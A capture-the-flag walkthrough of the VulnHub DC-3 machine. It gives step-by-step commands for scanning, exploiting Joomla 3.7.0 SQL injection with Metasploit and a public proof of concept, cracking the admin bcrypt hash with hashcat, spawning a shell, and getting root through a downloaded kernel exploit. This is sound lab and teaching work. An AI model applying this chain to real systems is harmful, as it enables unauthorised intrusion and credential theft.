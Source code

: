 # DC: 3
[VulnHub link](https://www.vulnhub.com/entry/dc-3,312/)  
By DCAU

* As with DC: 1 and DC: 2, we are first greeted with a login page that requires users to specify both the username and the password: 
![](/screenshots/dc-3/loginInitial.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/dc-3/nmapScan.jpg)
* After eliminating our own IP address and our router gateway IP address, it is very likely that the vulnerable VM's IP address is `10.0.2.8`.
* The host is running only the HTTP (port 80) service, where the port for this server is open.
* Run `nmap -p- -A 10.0.2.8`:
![](/screenshots/dc-3/hostFullScan.jpg)
* Looking at the services which the vulnerable VM is running, we can see an Apache httpd web server running on port 80 (which is open). Also, it appears that the web server is running on a Joomla Content Management System (CMS) instead of WordPress.
* Opening `http://10.0.2.8` reveals a site with a welcome post (message) and a login form on the right-hand side:
![](/screenshots/dc-3/siteWebServer.jpg)
* I learnt from another walkthrough that we can identify the CMS behind the site through the header in the page's source, without using any tools at all:
![](/screenshots/dc-3/siteWebServerCMSVersion.jpg)
* Unlike the previous 2 iterations of DC which has 5 flags, this one only has **1 flag**.
* I tried my luck on the login form with common login credentials such as `admin:admin` and `admin:password` which do not work as expected.
* Moreover, the displayed error message does not reveal to us if the username exists or not, unlike WordPress which does.
![](/screenshots/dc-3/loginInvalidMessage.jpg)
* The username is in red in the screenshot, but I do not think that means that the username does not exist. The username `admin` is likely to exist because we see that the welcome post was `Written by admin`, and I tried logins with the username `admin` and also other random ones, but both showed the username in red as a result of the invalid login attempt.
* Next, I tried `http://10.0.2.8/robots.txt`, where the output told us that a `robots.txt` file does not exist.
* The page source does not seem to reveal much of interest to us as well.
* It seems like there was nothing more I could poke at from the site by clicking around, so I searched for `joomla scanner kali` on Google, and found that our Kali VM has `joomscan` which scans for Joomla CMS vulnerabilities.
* Run `joomscan -u 10.0.2.8`:
![](/screenshots/dc-3/joomscan.jpg)
* The first thing that caught my eye was the `admin page` at `http://10.0.2.8/administrator/`, which really actually is a login page for administrators. Again, I tried common login credentials which were not successful:
![](/screenshots/dc-3/siteAdminLogin.jpg)
* And once again, there is no information leakage on whether we have a working username or not.
* Next, I tried to access the 4 directory listings that were shown and we are actually able to see the various directories and files within them!
* This was my first encounter with the Joomla CMS and I was not quite sure what to look out for, even if I had access to directories and files, unlike for example WordPress - where I knew that I would hunt for files like wp-config.php.
* However, we do know from `joomscan` that the Joomla CMS on this site was version `3.7.0`. I googled to see if there were exploits for this version of Joomla, and found the [Joomla Component Fields SQLi Remote Code Execution](https://www.rapid7.com/db/modules/exploit/unix/webapp/joomla_comfields_sqli_rce).
* I learnt from another walkthrough that we could find out the version of the Joomla CMS via the `README.txt` file:
![](/screenshots/dc-3/siteWebServerCMSVersion.jpg)
* I opened `msfconsole` and ran `use exploit/unix/webapp/joomla_comfields_sqli_rce`. After running `show options`, I `set RHOST 10.0.2.8`:
![](/screenshots/dc-3/msfconsoleJoomlaOptions.jpg)
* However, upon running `exploit`, we see that no session was created because there was "no logged-in Administrator or Super User user found":
![](/screenshots/dc-3/msfconsoleJoomlaExploitFailed.jpg)
* This tells us that there are no users logged in at the moment, or at least there are no users which have administrative privileges who are logged in.
* I googled further and found a proof-of-concept exploit for the same vulnerability at this [GitHub link](https://github.com/XiphosResearch/exploits/tree/master/Joomblah).
* Clone the Git repository, and run `python joomblah.py http://10.0.2.8`:
![](/screenshots/dc-3/joomblahOutput.jpg)
* Within a few seconds, we get to know that the user `admin` exists, along with his password hash `$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu`.
* I ran `hash-identifer` against the password hash and interestingly found no results:
![](/screenshots/dc-3/hashIdentifierAdmin.jpg)
* I extracted the front portions of the hash, i.e. `$2y$` and ran a Google search against it. Wikipedia tells us that such a prefix in a hash string indicates that the hash is a "bcrypt hash in modular crypt format".
* We will be using `hashcat`, ... **Find out if background of hashcat is required.**
* I ran `hashcat --help` to find out what parameters we had to use, and the `Hash modes` list came up to be pretty long, so I ran `hashcat --help | grep bcrypt` to find out what number was the bcrypt hash mode, which turned out to be `3200`.
* Insert the password hash into a text file (mine is `crackThisHash.txt`).
* Run `hashcat -m 3200 crackThisHash.txt /usr/share/wordlists/rockyou.txt --force`:
![](/screenshots/dc-3/hashcat.jpg)
* After a few seconds, we see that the hash has been cracked, and we have now got a valid set of credentials: `admin:snoopy`.
* Note: I used the standard given `rockyou.txt` wordlist for this purpose.
* Note: Running the command without `--force` for me resulted in this error:
![](/screenshots/dc-3/hashcatError.jpg)
* We are now able to log in to `http://10.0.2.8/administrator/`:
![](/screenshots/dc-3/loginAdmin.jpg)
* After logging in, I poked around the articles, categories, modules, plugins, etc. but did not quite seem to find information that was useful to me. This was my first time inside a Joomla CMS administrator panel and I was probably just groping in the dark.
* I remembered the exploit session which we attempted earlier using `msfconsole` and decided to head back for a shot at it:
![](/screenshots/dc-3/msfconsoleJoomlaExploitSuccess.jpg)
* We were able to establish a meterpreter session this time because we are logged in as `admin`.
* Note: If you encounter the same error as before (no logged-in administrator user), refresh your administrator panel on your web browser to confirm that you are still logged in, just before you run `exploit`.
* Run `shell`, then `whoami` and we find that we are `www-data` as expected.
* Enter `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn our interactive TTY shell and we find ourselves within `/var/www/html/templates/beez3`.
* I ran `find / -user root -perm -4000 -print 2>/dev/null` to search for setuid binaries which we could possibly exploit to gain root access:
![](/screenshots/dc-3/setuidBinaries.jpg)
* Nothing much really stood out to me. `pkexec` stood out to me, probably because I never saw it before. I googled about exploits relating to it, which was [available](https://www.exploit-db.com/exploits/17932) provided that the version running was <= 0.101. Running `pkexec --version` revealed that our version was `0.105`.
* I navigated to the `/home` directory and found several files for user `dc3`:
![](/screenshots/dc-3/dc3Files.jpg)
* The file `.sudo_as_admin_successful` stood out, but it was an empty file. Perhaps it is a hint? I opened up the `/cat/passwd` file to see if there was any user `admin`:
![](/screenshots/dc-3/passwdFile.jpg)
* Since there was no user `admin`, I was not quite sure what the file name meant. Perhaps admin referred to root.
* Nonetheless, we did confirm that there is a user `dc3`.
* At this point I was pretty much stuck on how I should be moving forward and referred to existing walkthroughs of DC-3, and found that one exploit to getting root was through a vulnerability in the web server's OS. This was getting interesting - I had never tried something like that before.
* To find out what OS version the web server is running, execute `cat /etc/issue; uname -a`:
![](/screenshots/dc-3/vulnerableOSVersion.jpg)
* We see that the web server is running on `Ubuntu 16.04 LTS`.
* Run `searchsploit Ubuntu 16.04` to find out if there are any existing exploits for this version of Ubuntu:
![](/screenshots/dc-3/searchsploitUbuntu.jpg)
* We will be using 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation from the list of available exploits.
* Run `cat /usr/share/exploitdb/exploits/linux/local/39772.txt` to see the details of the exploit.
* Download the .zip file for this exploit from [this GitHub link](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip) on the `/tmp` directory of the vulnerable web server.
* Run `unzip 39772.zip` to unzip the file, and we find `crasher.tar` and `exploit.tar`. At this point we are not exactly sure how we should be handling the files so I referred back to 39772.txt on how the files should be used:
![](/screenshots/dc-3/exploitUsage.jpg)
* Since we are looking at `exploit.tar`, run `tar -xvf exploit.tar` to extract its contents, which gives us the directory `ebpf_mapfd_doubleput_exploit`:
![](/screenshots/dc-3/doubleputExploitDirectory.jpg)
* Following the instructions in 39772.txt, run `./compile.sh`, which is a script that compiles the 3 C programs.
* Next, run `./doubleput`, and we have our root access:
![](/screenshots/dc-3/rootAccess.jpg)
* Head to `/root` directory, and we find `the-flag.txt`:
![](/screenshots/dc-3/flag.jpg)
* Hurray, we are done with this challenge!

# Other walkthroughs visited #
1. https://www.hackingarticles.in/dc-3-walkthrough/